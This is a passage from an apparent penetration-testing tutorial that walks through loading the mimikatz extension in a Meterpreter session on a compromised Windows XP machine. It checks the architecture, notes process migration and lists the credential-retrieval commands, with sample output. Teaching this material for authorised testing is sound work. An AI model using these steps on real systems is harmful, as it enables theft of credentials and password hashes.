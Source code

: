 Mimikatz is designed to work on 32-bit and 64-bit architectures. After moving to the SYSTEM level, we need to check the architecture of the target system with the `sysinfo` command. Sometimes, the Meterpreter session may be logged into a 32-bit architecture process running on a 64-bit architecture. In this case, some features of mimikatz will not work. If the Meterpreter session is running in a 32-bit process (even though the architecture is actually 64-bit), mimikatz will try to use software for 32-bit. The way to prevent this is to look at the running processes with the `ps` command and move to another process with the `migrate` command.

```bash
meterpreter > sysinfo
Computer : WINXP-E95CE571A1
OS : Windows XP (Build 2600, Service Pack 3).
Architecture : x86
System Language : en_US
Meterpreter : x86/win32
```

In the output seen here, we see that the target machine is already on a 32-bit architecture. So, there is no 32-bit, 64-bit conflict. Now we can load the `mimikatz` module.

```bash
meterpreter > load mimikatz
Loading extension mimikatz...success.
```

After the installation is successfully completed, let's first view the help information.

```bash
meterpreter > help mimikatz

Mimikatz Commands
**=================**

Command Description
------- -----------
kerberos Attempt to retrieve kerberos creds
livessp Attempt to retrieve livessp creds
mimikatz_command Run a custom command
msv Attempt to retrieve msv creds (hashes)
ssp Attempt to retrieve ssp creds
tspkg Attempt to retrieve tspkg creds
wdigest Attempt to retrieve wdigest creds
```

Mimikatz basically allows us to use the above commands, but the most powerful of them is the `mimikatz_command` option.

First, let's check the mimikatz version.

```bash
meterpreter > mimikatz_command -f version
mimikatz 1.0 x86 (RC) (Nov 7 2013 08:21:02)
```

There are a number of modules provided by mimikatz. To see the list of these modules, it is enough to give a module name that is not found in the system. In this case, mimikatz will give you a list of available modules. Pay attention to the `modulename::` format when using the command.
